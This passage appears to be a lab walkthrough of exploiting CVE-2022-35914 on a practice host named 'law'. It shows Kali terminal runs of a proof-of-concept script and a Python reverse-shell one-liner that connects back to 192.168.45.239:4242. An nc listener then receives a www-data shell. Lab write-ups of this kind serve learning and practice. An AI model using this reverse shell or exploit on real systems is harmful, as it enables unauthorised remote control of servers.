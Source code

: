 ```
┌──(kali㉿kali)-[~/CVE-2022-35914-poc]
└─$ python CVE-2022-35914.py -u http://law -c 'which python'                                                                                                                             
  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  

[+] Command output (Return code: 1):
```

```
┌──(kali㉿kali)-[~/CVE-2022-35914-poc]
└─$ python CVE-2022-35914.py -u http://law -c 'which python3'
  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  

[+] Command output (Return code: 0):
 /usr/bin/python3
```

We have python3! I write a `command.txt` file to avoid running into quote escaping annoyances... I plan on then `cat`-ing the file, see below:

```
┌──(kali㉿kali)-[~/CVE-2022-35914-poc]
└─$ cat command.txt      
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.239",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/CVE-2022-35914-poc]
└─$ python CVE-2022-35914.py -u http://law -c "$(cat command.txt)"     
  
  ______     _______     ____   ___ ____  ____      _________  ___  _ _  _   
 / ___\ \   / / ____|   |___ \ / _ \___ \|___ \    |___ / ___|/ _ \/ | || |  
| |    \ \ / /|  _| _____ __) | | | |__) | __) |____ |_ \___ \ (_) | | || |_ 
| |___  \ V / | |__|_____/ __/| |_| / __/ / __/_____|__) |__) \__, | |__   _|
 \____|  \_/  |_____|   |_____|\___/_____|_____|   |____/____/  /_/|_|  |_|  

(hanging...)
```

And we get a shell!

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.239] from (UNKNOWN) [192.168.184.190] 48024
www-data@law:/var/www/html$ whoami
whoami
www-data
```
